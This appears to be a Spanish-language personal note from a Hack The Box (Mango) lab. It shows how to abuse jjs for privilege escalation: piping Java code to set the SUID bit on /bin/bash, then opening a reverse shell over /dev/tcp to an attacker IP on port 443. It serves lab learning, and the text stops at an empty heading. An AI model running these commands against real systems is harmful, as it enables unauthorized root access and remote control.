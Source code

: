 
## DESCRIPTION

![[Pasted image 20230603103328.png]]
![[Pasted image 20230603103335.png]]

#### Mas información
* Encontramos jjs → https://gtfobins.github.io/gtfobins/jjs/#shell


## EXPLOITATION

1. Cambiarle los permisos a /bin/bash

```
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()" | jjs
bash -p → de privilege
```

![[Pasted image 20230603103440.png]]


2. Reverse shell:
IMPORTANTE: PONER UN NC Y UTILIZAR EL PARAMETRO -p en BASH

```
 echo "Java.type('java.lang.Runtime').getRuntime().exec(['/bin/bash','-p','-c','exec 5<>/dev/tcp/10.10.14.10/443;cat <&5 | while read line; do \$line 2>&5 >&5; done']).waitFor()" | jjs
```


![[Pasted image 20230603103506.png]]

## MACHINES

* Hack The Box: Mango

**!!NOTA IMPORTANTE!!** 